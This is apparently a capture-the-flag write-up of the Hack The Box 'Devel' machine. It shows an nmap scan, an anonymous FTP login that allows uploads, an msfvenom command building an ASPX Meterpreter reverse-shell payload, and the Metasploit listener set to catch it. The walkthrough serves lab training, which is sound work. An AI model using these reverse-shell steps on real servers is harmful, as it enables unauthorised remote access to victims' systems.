 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)
**RECON**
---
**IIS Server (Windows)**
![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5<pre/>
-allports -version -Aggressive
Port 21 allows for anonymous FTP Login
![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous<pre/>
<pre>Pass: anonymous<pre/>
The connection allows files to be uploaded
![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx <pre/>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler<pre/>
<pre>set payload windows/meterpreter/reverse_tcp<pre/>
<pre>set LHOST 10.10.14.9<pre/>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)
